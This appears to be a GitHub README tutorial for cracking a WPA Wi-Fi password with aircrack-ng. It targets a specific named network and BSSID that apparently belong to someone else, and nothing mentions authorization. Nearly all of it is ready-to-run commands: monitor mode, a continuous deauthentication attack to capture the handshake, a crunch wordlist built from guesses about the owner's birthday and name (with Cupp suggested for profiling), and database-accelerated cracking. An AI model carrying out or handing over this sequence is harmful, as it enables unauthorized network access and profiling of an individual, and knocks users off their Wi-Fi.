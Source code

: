 # Example crack wpa attack with aircrack-ng

i use tp-link wn725n (chipset rtl8188eus) and parrotOS

connect your card wifi and check

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/168417974-d9650a49-951b-4a6f-ab8b-12e4f7cd7455.png)

```
airmon-ng check kill
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418068-964e3312-b269-44fc-9721-398be478f2ce.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418114-4d4e8f16-58ec-4358-bc99-dd625f4e7d26.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19` to monitor close

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418356-e901847a-143e-4509-85b2-efeb783b1ca1.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418251-fe850fa5-0687-4241-836d-9d287f276e95.png)

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

because it's going to be a very, very large file, so i'm going to reveal that

the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

you can also use [Cupp](https://github.com/lucthienphong1120/cupp) to make such inferences

![image](https://user-images.githubusercontent.com/90561566/166604507-5c291bf0-6961-4a15-8c52-cf5faf0b749f.png)

the output file about 11,5 GB and 1,2 billion passwords

---

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap
```

or redirect directly from crunch

```
crunch <min> <max> <charset> -t <pattern> | aircrack-ng -w- out*.cap
```

![image](https://user-images.githubusercontent.com/90561566/193245022-8c0a5de2-32c6-4b34-bb8d-30dc8ce51521.png)

---

but i will use database to speed up the attack

it will take more time to set up the database (but it will be much faster than regular crack)

you should only use it if you create a permanent database for crack because it will take a long time (or the passlist is not too long)

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166434891-81c08ca3-48ff-4579-9a74-fe6e65634b42.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
```

![image](https://user-images.githubusercontent.com/90561566/166435872-44a73959-3784-41c3-849a-5c1aa823dcd4.png)

```
airolib-ng crackwpa --batch
```

![image](https://user-images.githubusercontent.com/90561566/166454564-9b6cd253-74a0-4304-b94e-988a3e92f825.png)


now crack with database, you will be surprised

```
aircrack-ng -r crackwpa out*.cap
```

done! there is the password (crack speed is about 36 GB/s)

![image](https://user-images.githubusercontent.com/90561566/166684325-e337e6cd-f376-4172-91a2-617a80a3156c.png)

```
airmon-ng stop <iface>
service NetworkManager restart
```

![image](https://user-images.githubusercontent.com/90561566/168418601-6af69920-10bc-47ea-b5d7-7d5fc0ea3017.png)










